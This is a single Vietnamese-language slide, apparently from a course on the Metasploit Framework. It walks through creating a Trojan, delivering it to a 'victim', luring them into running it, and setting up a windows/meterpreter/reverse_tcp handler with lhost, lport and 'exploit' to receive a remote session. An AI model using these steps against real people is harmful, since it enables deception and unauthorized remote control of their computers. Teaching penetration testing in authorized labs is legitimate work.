

#
III. Sử dụng Metasploit Framework
Tạo mã độc (Trojan), rồi truyền vào máy victim sau đó dẫn dụ victim kích hoạt
Bước 4: Gõ set payload windows/meterpreter/reverse_tcp thiết lập kiểu payload mà bạn đã chọn để tạo file payload vừa rồi. Đồng thời set lhost và set lport trùng với Trojan ở trên.
Bước 5: Gõ exploit để chờ nhận kết quả, nếu victim kích hoạt payload và không bị lỗi gì thì sẽ có một thống báo: “meterpreter session 1 opened”.
22